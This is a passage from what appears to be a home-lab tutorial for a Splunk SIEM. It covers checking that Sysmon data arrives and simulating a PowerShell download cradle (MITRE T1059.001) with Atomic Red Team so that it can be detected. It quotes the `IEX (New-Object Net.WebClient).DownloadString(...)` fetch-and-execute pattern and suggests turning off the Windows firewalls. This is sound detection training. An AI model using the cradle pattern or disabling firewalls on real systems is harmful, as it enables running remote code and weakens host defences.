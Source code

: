 
## Phase 5: Data Ingestion & Verification

With everything configured, data should now be flowing from the victim machine to the SIEM. Let's verify it.

**1. Search for Data in Splunk:**
   - Go back to your Splunk web UI on the Windows Server VM.
   - Click on the **Search & Reporting** app.
   - In the search bar, enter the following SPL query to look for data in the index we specified:
     ```spl
     index="botsv3"
     ```
   - You should see events from your Windows 10 machine appearing. If you don't see data immediately, give it a few minutes. You can also expand the time-picker in the top right to "All time".

![Image: Verifying Sysmon data is arriving in Splunk](images/splunk-data-verification.png)

**Troubleshooting:** If you don't see any data:
-  Ensure both VMs can ping each other.
-  Verify the Windows Firewalls are off (or have rules for ports 9997 and 8089).
-  Double-check the IP addresses in your UF configuration.
-  Check the forwarder's internal logs for errors (`C:\Program Files\SplunkUniversalForwarder\var\log\splunk\splunkd.log`).

---

## Phase 6: Threat Simulation & Detection

This is where the lab comes to life. We will simulate a common attack technique and then write a Splunk query to detect it.

**1. The Scenario: PowerShell Download Cradle**
   - We will simulate an attacker using PowerShell to download and execute a script from the internet. This is a very common technique (MITRE ATT&CK T1059.001) used in initial access and execution stages of an attack.
   - We will use **Atomic Red Team** to perform this simulation safely.

**2. Install Atomic Red Team:**
   - On the Windows 10 "Victim" VM, open an **administrative PowerShell** window.
   - Run the following command to install the module:
     ```powershell
     Install-Module -Name AtomicRedTeam -Force
     Import-Module AtomicRedTeam
     ```

**3. Execute the Test:**
   - We will run the test for technique **T1059.001**. This specific test uses `IEX` (Invoke-Expression) to run a command, which is a classic indicator of malicious PowerShell activity.
   - In the same PowerShell window, run this command:
     ```powershell
     Invoke-AtomicTest T1059.001 -TestNumbers 3
     ```
   - This command will execute a harmless `IEX (New-Object Net.WebClient).DownloadString(...)` command.
